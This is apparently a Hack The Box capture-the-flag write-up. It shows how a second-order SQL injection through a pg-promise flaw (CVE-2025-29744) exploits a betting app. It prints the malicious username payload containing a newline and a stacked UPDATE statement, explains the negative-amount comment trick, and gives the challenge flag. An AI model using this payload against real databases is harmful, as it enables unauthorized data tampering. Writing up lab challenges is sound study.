



# Dash Rush - Hard

It's was a little bit easy challenge 

let's dive into challenge 

you can download the source code from here 

when you see the source code in 

`routes.js` :

```java script
let flag = null;

if (account.coins >= 1337) {

	flag = "HTB{admin_jwt_theft_insider_trading_master}";
}
```

for the first while i think the challenge about get the admin account to get the point's or will be a logic bug 

but when i get into the package.json file i found this description 😂
```json
CVE-2025-29744 SQL Injection Demo
```

i think that's was a fault by the admin but it make the challenge easier 

so the first thing i searched for the `CVE` to get the details 

i found this write-up what's will be useful 

[CVE-2025-29744 ](https://awwfensive.medium.com/exploiting-cve-2025-29744-in-pg-promise-when-prepared-statements-arent-safe-5408360ce342)

we will explain the details but after this we will dive into the code again 

so i was looking for the` sql query's `  

in `database.js `i found this

 ```java script 
 static async placeStake(username, contestantId, amount) {

try {

		const updateQuery =
	
		"UPDATE accounts SET coins = coins-$1 WHERE username=$2;";
	
	const insertQuery =
	
  		"INSERT INTO stakes (username, contestant_id, amount) VALUES                  (  $1,$2,$3)";
	
	  
	
	const updateParams = [amount, username];
	
	const insertParams = [username, contestantId, amount];
 ```

`updateQuery`  : it have the same query that i found in the CVE link 

and it take the params from `/stack` endpoint

```java script 
	static async placeStake(contestantId, amount, token) {
		return this.request("/stake", {
			method: "POST",
			headers: {
				Authorization: `Bearer ${token}`,
				},
			body: { contestantId, amount },
		});
	}
```


the query have the `coins-$1` that if i put the amount with `-10` the query will be like this 
```sql 
UPDATE accounts SET coins = coins--10 WHERE username=stinger;
```

that will  a comment  

But it will gen a syntax error so we can to preform the exploit 

from the same like you will find the `\n` trick that will make a new line in the qurey like this 
```sql 
UPDATE accounts SET coins = coins--10\n
; WHERE username=stinger;
```

for more details you can read the write-up 

so now it was clear to us it's  a second  order `sqlinjection` the fist thing we will   
make a new account with this user name
```sql
	xemy\n; UPDATE accounts SET coins=2000; --
```

as this :



then we will go to `/api/stack` and put the amount to `-10`



so the application will take the amount and the registered  username and the query be like this 

```sql 
UPDATE accounts SET coins = coins--10 WHERE username='xemy ; UPDATE accounts SET coins=2000; --'
```

and when you go to `/api/account ` you can find the `flag`



----

